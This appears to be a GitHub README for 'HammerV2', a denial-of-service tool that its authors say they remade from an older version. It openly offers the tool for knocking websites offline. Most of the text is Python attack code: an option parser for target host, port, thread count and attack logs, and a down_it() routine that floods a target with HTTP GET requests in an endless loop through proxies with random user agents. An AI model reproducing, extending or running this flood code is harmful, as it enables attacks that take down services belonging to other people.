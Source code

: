 # HammerV2
- HammerV2 is some DDoS tool that has been remaked by iFanpS & NumeX

Me & NumeX remake this DDoS tool because the old version has been malfunction or cannot be use.

Me implement some code in here like new argument and on attack line.

# New Argument
I am adding new argument (-l | logs) logs method is used for know when are u ddosing.

I will add new argument soon like can automatically make logs when the site u ddos is Down.
```Python
def get_parameters():
    global host
    global port
    global thr
    global item
    times = time.ctime(time.time()).split()
    optp = OptionParser(add_help_option=False,epilog="Hammers")
    optp.add_option("-l","--logs",dest="logs",help="save attack logs -l yes")
    optp.add_option("-s","--server", dest="host",help="attack to server ip -s ip")
    optp.add_option("-p","--port",type="int",dest="port",help="-p 80 default 80")
    optp.add_option("-t","--thread",type="int",dest="turbo",help="default 1000 thread")
    optp.add_option("-h","--help",dest="help",action='store_true',help="help you")
    opts, args = optp.parse_args()
    if opts.help:
        usage()
    if opts.host is not None:
        host = opts.host
    else:
        usage()
    if opts.port is None:
        port = 80
    else:
        port = opts.port
    if opts.logs == 'yes':
        with open('logs_hammerv2.txt','a') as lg:
            lg.write(f"{host}:{port} is attacked on Day : {times[0]}, Month : {times[1]}:{times[2]}, Time : {times[3]}, Year : {times[4]}\n")
            lg.close()
    else:
        pass
    if opts.turbo is None:
        thr = 1000
    else:
        thr = opts.turbo
```

# Attack Method
The old hammer attack method u can find on github.

But here i remake the attack method to fast attack.
```Python
def down_it():
    try:
        data = """
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
        Accept-Language: en-us,en;q=0.5
        Accept-Encoding: gzip,deflate
        Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
        Connection: keep-alive"""
        while True:
            packet = str("GET / HTTP/1.1\nHost: "+host+"\n\n User-Agent: "+random.choice(uagent)+"\n"+data).encode('utf-8')
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((prox[0],int(prox[1])))
            if s.send( packet):
                s.shutdown(1)
                print ("\033[92m","Time :","\033[0m","\033[92m",time.ctime(time.time()),"\033[0m \033[94m <--packet sent! hammering--> \033[0m")
            else:
                s.shutdown(1)
                print("\033[91mshut<->down\033[0m")
            time.sleep(.1)
    except socket.error as e:
        print("\033[91mSocket error\033[0m")
        time.sleep(2)
    except KeyboardInterrupt:
        exit()
```

# Credit
- NumexX & iFanpS